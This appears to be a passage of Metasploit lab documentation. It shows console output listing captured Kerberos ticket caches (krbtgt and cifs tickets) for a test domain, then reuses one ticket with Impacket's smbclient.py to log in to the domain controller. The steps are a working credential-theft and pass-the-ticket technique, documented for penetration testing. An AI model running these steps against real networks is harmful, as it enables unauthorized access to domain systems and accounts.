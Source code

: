 192.168.159.10  smcintyre@MSFLAB.LOCAL  cifs/DC@MSFLAB.LOCAL               2022-12-16 17:08:26 -0500  valid        /home/smcintyre/.msf4/loot/20221216170825_default_192.168.159.10_mit.kerberos.cca_196712.bin
192.168.159.10  smcintyre@MSFLAB.LOCAL  krbtgt/msflab.local@MSFLAB.LOCAL   2022-12-16 15:03:03 -0500  valid        /home/smcintyre/.msf4/loot/20221216150302_default_192.168.159.10_mit.kerberos.cca_729805.bin
192.168.159.10  aliddle@MSFLAB.LOCAL    krbtgt/msflab.local@MSFLAB.LOCAL   2022-12-16 15:25:16 -0500  valid        /home/smcintyre/.msf4/loot/20221216152515_default_192.168.159.10_mit.kerberos.cca_934698.bin
`

`msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot --type mit.kerberos.ccache

Loot
====

host            service  type                 name             content                   info                                                                  path
----            -------  ----                 ----             -------                   ----                                                                  ----
192.168.159.10           mit.kerberos.ccache                   application/octet-stream  realm: MSFLAB.LOCAL, client: smcintyre, server: krbtgt/msflab.local   /home/smcintyre/.msf4/loot/20221219105440_default_192.168.159.10_mit.kerberos.cca_905330.bin
192.168.159.10           mit.kerberos.ccache                   application/octet-stream  realm: MSFLAB.LOCAL, client: smcintyre, server: cifs/dc.msflab.local  /home/smcintyre/.msf4/loot/20221219105440_default_192.168.159.10_mit.kerberos.cca_539055.bin
`

`
[user@localhost]$ KRB5CCNAME=/home/smcintyre/.msf4/loot/20221219105440_default_192.168.159.10_mit.kerberos.cca_539055.bin \
  python examples/smbclient.py  dc.msflab.local -target-ip 192.168.159.10 -k
Impacket v0.9.22.dev1+20200327.103853.7e505892 - Copyright 2021 SecureAuth Corporation

Type help for list of commands
# info
Version Major: 10
Version Minor: 0
Server Name: DC
Server Comment:
Server UserPath: c:\
Simultaneous Users: 16777216
#
`

